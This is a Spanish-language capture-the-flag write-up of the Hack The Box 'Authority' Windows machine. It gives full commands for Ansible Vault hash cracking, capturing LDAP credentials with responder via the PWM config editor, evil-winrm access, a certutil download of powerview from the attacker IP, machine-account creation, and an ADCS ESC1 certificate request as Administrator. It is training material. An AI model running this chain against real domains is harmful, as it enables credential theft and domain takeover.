___
Tags: #medium #authority
___
# Authority

## Información General

**- Dificultad:** Medium <br>
**- Sistema operativo:** Windows <br>
**- Fecha de resolución:** 13/08/2026 <br>
**- Enlace:** [Authority](https://app.hackthebox.com/machines/Authority)

## Usuario identificado

**`guest`**

- **Importancia:** Cuenta de invitado del dominio utilizada durante la fase de enumeración SMB mediante `netexec`. Permitió listar y montar recursos compartidos expuestos en la red (como el recurso `Development`) sin requerir contraseña.

- **`svc_pwm`**

- **Importancia:** Es la cuenta de servicio utilizada por la aplicación web de gestión de contraseñas _PWM_ para interactuar con el directorio LDAP. Sus credenciales fueron encontradas cifradas mediante _Ansible Vault_ dentro de los archivos de configuración de despliegue (`defaults/main.yml`).

- **`svc_ldap`**
    
- **Importancia:** Es una cuenta de servicio alojada en la unidad organizativa `OU=Service Accounts,OU=CORP,DC=authority,DC=htb`. Sus credenciales en texto plano (`lDaP_1n_th3_cle4r!`) fueron capturadas tras forzar la autenticación LDAP a una IP controlada mediante el _Configuration Editor_ de PWM. Permite obtener acceso inicial al sistema mediante **WinRM** (servicio de administración remota) y leer el archivo de bandera `user.txt`.

- **`dani$`**
    
- **Importancia:** Es una cuenta de equipo (_Machine Account_) creada maliciosamente en el Active Directory por el usuario `svc_ldap` utilizando el script `addcomputer.py`. Se aprovechó la cuota predeterminada `ms-DS-MachineAccountQuota` (fijada en 10). Esta cuenta fue fundamental para solicitar el certificado vulnerable a la CA, ya que la plantilla `CorpVPN` restringía los permisos de inscripción (_Enrollment Rights_) únicamente a miembros del grupo `Domain Computers`.

## Listado de Vulnerabilidades Identificadas

### 1. Acceso de Lectura No Restringido en Recursos Compartidos (SMB)

- **Descripción:** Se permitió el acceso de lectura con la cuenta invitada (`guest`) sin contraseña a recursos compartidos sensibles en la red, específicamente en la carpeta `Development`.
    
- **Impacto:** Exposición de archivos de automatización de Ansible que contenían la estructura de despliegue, scripts y archivos de configuración con credenciales enmascaradas/cifradas.

### 2. Uso de Contraseñas Débiles en Ansible Vault

- **Descripción:** Las credenciales almacenadas dentro de los archivos de configuración de Ansible estaban protegidas mediante _Ansible Vault_, pero utilizando claves de cifrado vulnerables a ataques de fuerza bruta por diccionario.

- **Impacto:** Un atacante pudo extraer las claves cifradas mediante `ansible2john` y descifrarlas utilizando listas de contraseñas estándar (como _rockyou.txt_), revelando las credenciales de administración del portal PWM (`pWm_@dm!N_!23`).

### 3. Exposición y Modo de Configuración Inseguro en la Aplicación Web (PWM)

- **Descripción:** La aplicación de gestión de contraseñas PWM (_Password Self Service_) se encontraba en modo de configuración abierto / mal protegido (`open configuration mode`).

- **Impacto:** Permitió acceder al panel de administración (_Configuration Editor_) y modificar los parámetros de conexión del servidor LDAP.

### 4. Transmisión de Credenciales en Texto Plano mediante LDAP

- **Descripción:** La aplicación web realizaba la autenticación con el servidor Active Directory enviando las credenciales del usuario de servicio sin mecanismos de cifrado de transporte (LDAPS).

- **Impacto:** Al redirigir la URL de LDAP hacia una dirección IP de escucha controlada, el sistema envió las credenciales del usuario `svc_ldap` (`lDaP_1n_th3_cle4r!`) en texto plano.

### 5. Configuración Permisiva de la Cuota de Cuentas de Equipo (`ms-DS-MachineAccountQuota`)

- **Descripción:** El atributo de Active Directory `ms-DS-MachineAccountQuota` conservaba su valor predeterminado de **10**.

- **Impacto:** Cualquier usuario autenticado del dominio (como `svc_ldap`) tenía permiso para crear nuevas cuentas de equipo (`Domain Computers`), lo que sirvió como pivote necesario para solicitar certificados en el dominio.

### 6. Vulnerabilidad Crítica ESC1 en Servicios de Certificados de Active Directory (AD CS)

- **Descripción:** La plantilla de certificado `CorpVPN` presentaba una combinación de configuraciones inseguras que cumplen los criterios de la vulnerabilidad **ESC1**:
    
    - **Permite Autenticación de Cliente:** `Client Authentication: True`.
        
    - **El solicitante define el sujeto (SAN/UPN):** `Enrollee Supplies Subject: True`.
        
    - **Sin aprobación manual:** `Requires Manager Approval: False`.
        
    - **Permisos de inscripción asignados a equipos:** `Enrollment Rights: Domain Computers`.
        
- **Impacto:** Permitió a una cuenta de equipo (como `dani$`) solicitar un certificado digital válido a nombre de cualquier usuario arbitrario del dominio, específicamente el usuario `Administrator`, logrando la suplantación de identidad y la posterior elevación a privilegios de Administrador del Dominio.
## Reconocimiento

**HTB** nos proporciona la ip de la máquina objetivo **10.1229.229.56**

### Ping

```
ping -c 1 10.129.229.56
```
<p align="center">

</p>

**Su ttl es 128. Por tanto, es Window**

## Enumeración

### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -Pn 10.129.229.56
```

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-13 00:12:05Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-08-13T00:13:14+00:00; +4h00m00s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-08-13T00:13:13+00:00; +3h59m59s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-13T00:13:14+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2026-08-13T00:13:12+00:00; +4h00m00s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/http      Apache Tomcat (language: en)
| tls-alpn: 
|_  h2
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2026-08-11T00:06:36
|_Not valid after:  2028-08-12T11:45:00
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49697/tcp open  msrpc         Microsoft Windows RPC
49712/tcp open  msrpc         Microsoft Windows RPC
52241/tcp open  msrpc         Microsoft Windows RPC
52287/tcp open  msrpc         Microsoft Windows RPC  
```

| Open port/TCP | Service      | Version                                 |
| ------------- | ------------ | --------------------------------------- |
| 53            | domain       | Simple DNS Plus                         |
| 80            | http         | Microsoft IIS httpd 10.0                |
| 88            | kerberos-sec | Microsoft Windows Kerberos              |
| 135           | msrpc        | Microsoft Windows RPC                   |
| 139           | netbios-ssn  | Microsoft Windows netbios-ssn           |
| 389           | ldap         | Microsoft Windows Active Directory LDAP |
| 593           | ncacn_http   | Microsoft Windows RPC over HTTP 1.0     |
| 636           | ssl/ldap     | Microsoft Windows Active Directory LDAP |
| 3268          | ldap         | Microsoft Windows Active Directory LDAP |
| 3269          | ssl/ldap     | Microsoft Windows Active Directory LDAP |
| 8443          | ssl/http     | Apache Tomcat (language: en)            |
| 9389          | mc-nmf       | .NET Message Framing                    |

DNS --> `authority.htb.corp`, `htb.corp`, `HTB`, `authority.htb`, `authority.htb.corp`

### 80/TCP WEB

<p align="center">

</p>

no encontré nada, sin más.

### SMB 

```
netexec smb 10.129.229.56 -u guest -p ''
```

<p align="center">

</p>

```
netexec smb 10.129.229.56 -u guest -p '' --shares
```

<p align="center">

</p>

A continuación voy a crear una carpeta y dentro montare la carpeta **Development** para realizar una enumeración profunda.

```
mkdir smb

sudo mount -t cifs //10.129.229.56/Development smb -o username=guest,password='',domain=authority.htb

sudo umount /home/dani/Escritorio/MACHINES/medium/authority/smb #lo uso cuando quiera desmontar la carperta
```

```
Automation
    └── Ansible
        ├── ADCS
        │   ├── defaults
        │   │   └── main.yml
        │   ├── LICENSE
        │   ├── meta
        │   │   ├── main.yml
        │   │   └── preferences.yml
        │   ├── molecule
        │   │   └── default
        │   │       ├── converge.yml
        │   │       ├── molecule.yml
        │   │       └── prepare.yml
        │   ├── README.md
        │   ├── requirements.txt
        │   ├── requirements.yml
        │   ├── SECURITY.md
        │   ├── tasks
        │   │   ├── assert.yml
        │   │   ├── generate_ca_certs.yml
        │   │   ├── init_ca.yml
        │   │   ├── main.yml
        │   │   └── requests.yml
        │   ├── templates
        │   │   ├── extensions.cnf.j2
        │   │   └── openssl.cnf.j2
        │   ├── tox.ini
        │   └── vars
        │       └── main.yml
        ├── LDAP
        │   ├── defaults
        │   │   └── main.yml
        │   ├── files
        │   │   └── pam_mkhomedir
        │   ├── handlers
        │   │   └── main.yml
        │   ├── meta
        │   │   └── main.yml
        │   ├── README.md
        │   ├── tasks
        │   │   └── main.yml
        │   ├── templates
        │   │   ├── ldap_sudo_groups.j2
        │   │   ├── ldap_sudo_users.j2
        │   │   ├── sssd.conf.j2
        │   │   └── sudo_group.j2
        │   ├── TODO.md
        │   ├── Vagrantfile
        │   └── vars
        │       ├── debian.yml
        │       ├── main.yml
        │       ├── redhat.yml
        │       └── ubuntu-14.04.yml
        ├── PWM
        │   ├── ansible.cfg
        │   ├── ansible_inventory
        │   ├── defaults
        │   │   └── main.yml
        │   ├── handlers
        │   │   └── main.yml
        │   ├── meta
        │   │   └── main.yml
        │   ├── README.md
        │   ├── tasks
        │   │   └── main.yml
        │   └── templates
        │       ├── context.xml.j2
        │       └── tomcat-users.xml.j2
        └── SHARE
            └── tasks
                └── main.yml
```

Aquí nos espera una ardua enumeración. Iremos a investigar otras cosas, sino encontramos nada interesante volvemos aquí

### 8443/tcp - PWN

<p align="center">

</p>

Cuando le doy a algunos de los botones me aparece lo siguiente:

<p align="center">

</p>

No entiendo nada.

## Explotación

### shell como svc_ldap

#### Archivos Ansible-PWM

`defaults/main.yml` tiene valores de configuración para PWM:

Es un archivo de configuración de **Ansible** que se utiliza para desplegar **PWM**, una aplicación web de gestión de contraseñas de autoservicio integrada con un servidor **LDAP** local (`127.0.0.1`) en el dominio `DC=authority,DC=htb`, donde los datos sensibles como usuarios y contraseñas de administración están protegidos mediante el cifrado **Ansible Vault** (AES256) y requieren su correspondiente clave de desencriptado para poder visualizarse en texto plano.

<p align="center">

</p>

A continuación vamos a crakear cada cifrado **Ansible Vault**. Lo haremos de forma individual cada uno en un **.txt**

<p align="center">

</p>

Luego usaremos el script **ansible2john.py** que sirve para extraer el hash de un archivo cifrado con **Ansible Vault** y lo convierte a un formato de texto estándar que las herramientas de fuerza bruta pueden procesar.

```
ansible2john vault1 | tee hash1
ansible2john vault2 | tee hash2
ansible2john vault3 | tee hash3
```

<p align="center">

</p>

luego se usa de **jhon** para extraer la contraseña del **cifrado ansible vault**.

```
john -w=/usr/share/wordlists/rockyou.txt hash1
john -w=/usr/share/wordlists/rockyou.txt hash2
john -w=/usr/share/wordlists/rockyou.txt hash3
john hash1 hash2 hash3 --show
```

<p align="center">

</p>

El script `ansible_vault_decrypt.py` es la herramienta que permite **abrir y leer la información real** que está escondida dentro del archivo cifrado, usando la contraseña que acabas de encontrar con John.

```
python3 ansible_vault_decrypt.py -f vault1 -p '!@#$%^&*' 
python3 ansible_vault_decrypt.py -f vault2 -p '!@#$%^&*' 
python3 ansible_vault_decrypt.py -f vault3 -p '!@#$%^&*'
```

<p align="center">

</p>

A continuación se navega al siguiente url `https://10.129.229.56:8443/pwm/private/login` y nos vamos a `Configuration Editor` e introducimos la pass `pWm_@dm!N_!23`

<p align="center">

</p>

Si nos vamos al apartado LDAP - LDAP Directories - Connection

En la configuración **LDAP URL**  configuramos nuestra ip y puerto ldap (389)

```
ldap://10.10.14.188:389
```

<p align="center">

</p>

Antes de darle preparamos nuestro responder 

```
sudo responder -I tun0
```

<p align="center">

</p>

Cred --> **svc_ldap**:**lDaP_1n_th3_cle4r!**

Compruebo con la herramienta **netexec** si este nuevo usuario se puede usar para **winrm**

```
netexec winrm authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

<p align="center">

</p>

```
evil-winrm -i authority.htb -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

<p align="center">

</p>

## Escalada de Privilegios

### Shell como Administrator

La escalada de privilegio en esta machine va encaminado sobre **Active Directory Certificate Services**. A continuación, se hará el siguiente comando para averiguar que cert son vulnerables:

```
certipy-ad find -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -target authority.htb -text -stdout -vulnerable
```

Se acaba de encontrar la **vulnerabilidad crítica ESC1**, una de las formas más comunes y potentes para **elevar privilegios a Administrator del Dominio**.

<p align="center">

</p>

#### ¿Por qué es VULNERABLE esta plantilla? (El vector ESC1)

Para que un certificado sea vulnerable al ataque **ESC1**, deben cumplirse **4 condiciones al mismo tiempo**, y esta plantilla cumple con todas:

|**Condición necesaria para ESC1**|**Lo que dice tu salida**|**Significado**|
|---|---|---|
|**1. Permite Autenticación de Cliente**|`Client Authentication: True`|El certificado emitido sirve para iniciar sesión en Active Directory (como si fuera un usuario con contraseña).|
|**2. El solicitante define la identidad**|`Enrollee Supplies Subject: True`|Al pedir el certificado, **tú eliges el nombre del usuario** para el que va destinado (ej: puedes decir _"Dámelo a nombre de Administrator"_).|
|**3. No requiere aprobación manual**|`Requires Manager Approval: False`|La CA emite el certificado inmediatamente sin que un administrador apruebe la solicitud.|
|**4. Tienes permisos para solicitarlo**|`User Enrollable Principals: Domain Computers`|Cualquier cuenta de equipo (`Domain Computers`) tiene permiso para solicitar certificados con esta plantilla.|

En este caso, son `Domain Computers` quienes pueden registrarse utilizando esta plantilla, no `Domain Users` .

A continuación, a nuestra máquina objetivo nos pasamos la herramienta **powerview.ps1**

```
certutil.exe -urlcache -f http://10.10.14.188/powerview.ps1 .\powerview.ps1
```

Recordáis la salida de **Certipy**, la plantilla `CorpVPN` decía lo siguiente:

No se puedes pedir el cert como usuario normal, se tiene que pedirlo como EQUIPO (`Domain Computers`)

<p align="center">

</p>

El siguiente comando **comprueba si mi usuario actual tiene la capacidad de crear una nueva cuenta de equipo en el dominio.** 

```
. .\powerview.ps1

Get-DomainObject -Identity 'DC=AUTHORITY,DC=HTB' | select ms-ds-machineaccountquota
```

Este usuario puedes crear **10 cuentas de equipo (computadoras/máquinas)** en el dominio.

<p align="center">

</p>

El siguiente comando ejecuta el script `addcomputer.py` sirve para **crear una nueva cuenta de equipo en el dominio de Active Directory**, aprovechando justamente la cuota `ms-DS-MachineAccountQuota` que comprobé antes.

```
addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name dani -computer-pass danidanidani -dc-ip 10.129.229.56
```

<p align="center">

</p>

#### Creando certificado

El resultado es un certificado y una clave privada guardados en **administrator_authority.pfx** :

```
certipy-ad req -username 'dani$' -password danidanidani -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb -dns authority.htb
```

<p align="center">

</p>

#### Pass-The-Ticket

los siguientes comando sirve para **descomponer el archivo de certificado (`.pfx`) en dos archivos independientes en texto plano**: la **clave privada** (`.key`) y el **certificado público** (`.crt`).

Extraer la clave privada (`.key`)

```
certipy-ad cert -pfx administrator_authority.pfx -nocert -out administrator.key
```

Extraer el certificado público (`.crt`)

```
certipy-ad cert -pfx administrator_authority.pfx -nokey -out administrator.crt
```

Hacemos esto del **Pass-The-Ticket** porque muchas herramientas **no aceptan un archivo `.pfx` empaquetado directamente**.

Usaremos [PassTheCert](https://github.com/AlmondOffSec/PassTheCert) porque es una herramienta diseñada para **autenticarse directamente en el servidor LDAP/LDAPS mediante un certificado digital**

```
git clone https://github.com/AlmondOffSec/PassTheCert.git
```

